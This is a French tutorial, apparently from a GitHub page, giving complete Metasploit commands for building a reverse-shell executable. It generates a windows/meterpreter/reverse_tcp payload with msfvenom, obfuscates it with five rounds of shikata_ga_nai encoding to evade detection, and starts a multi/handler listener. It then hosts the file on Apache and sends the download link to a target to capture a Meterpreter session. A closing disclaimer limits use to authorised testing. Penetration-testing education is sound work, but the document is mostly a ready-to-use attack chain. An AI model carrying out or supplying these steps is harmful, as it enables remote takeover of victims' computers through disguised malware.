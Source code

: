 ### Étape 1 : **Afficher les exploits disponibles dans Metasploit**
1. **Lancer Metasploit** :
   ```bash
   msfconsole
   ```

2. **Afficher la liste des exploits disponibles** :
   ```bash
   show exploits
   ```
   - Parcourez la liste et choisissez l'exploit souhaité. Pour un simple handler pour reverse shell, on utilise `exploit/multi/handler`.

### Étape 2 : **Créer le payload encodé avec `shikata_ga_nai`**
1. **Afficher les payloads disponibles avec `msfvenom`** :
   ```bash
   msfvenom --list payloads
   ```
   - Choisissez le payload approprié, par exemple `windows/meterpreter/reverse_tcp`.

2. **Créer le payload avec encodage** :
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<votre_IP> LPORT=<votre_port> -e x86/shikata_ga_nai -i 5 -f exe > payload_encoded.exe
   ```
   - **Explication des options** :
     - `-p windows/meterpreter/reverse_tcp` : Payload pour un reverse shell Meterpreter.
     - `LHOST` : Adresse IP de votre machine attaquante.
     - `LPORT` : Port d'écoute sur votre machine.
     - `-e x86/shikata_ga_nai` : Utilisation de l'encodeur `shikata_ga_nai`.
     - `-i 5` : Nombre d'itérations d'encodage pour augmenter l'obfuscation.
     - `-f exe` : Format du fichier de sortie.

### Étape 3 : **Configurer le listener dans Metasploit**
1. **Sélectionner l'exploit `multi/handler`** :
   ```bash
   use exploit/multi/handler
   ```

2. **Afficher les options disponibles pour l'exploit** :
   ```bash
   show options
   ```

3. **Configurer les options du payload** :
   ```bash
   set payload windows/meterpreter/reverse_tcp
   set LHOST <votre_IP>
   set LPORT <votre_port>
   show options
   ```
   - Vérifiez que toutes les options sont correctement configurées.

4. **Lancer l'exploit** :
   ```bash
   exploit
   ```

### Étape 4 : **Partager le payload via un serveur web**
1. **Copier le payload dans le répertoire du serveur web** :
   ```bash
   cp payload_encoded.exe /var/www/html/
   ```

2. **Vérifier le statut du serveur Apache** :
   ```bash
   service apache2 status
   ```
   - Si le serveur n'est pas démarré, utilisez :
     ```bash
     service apache2 start
     ```

3. **Vérifier l'accès au payload** :
   Accédez au lien suivant depuis un navigateur ou utilisez `curl` :
   ```bash
   curl http://<votre_IP>/payload_encoded.exe
   ```

### Étape 5 : **Partager le lien de téléchargement**
Envoyez le lien à la cible pour télécharger le payload :
```text
http://<votre_IP>/payload_encoded.exe
```

### Étape 6 : **Attendre l'exécution et capturer la session Meterpreter**
Une fois que le payload est exécuté sur la machine cible, la session `meterpreter` sera automatiquement ouverte dans Metasploit, permettant l'interaction avec la cible.

### **Note Importante** :
Cette procédure est réservée aux tests de pénétration éthiques et autorisés sur des systèmes pour lesquels vous avez obtenu la permission. Toute utilisation non autorisée est illégale et contraire à l'éthique.

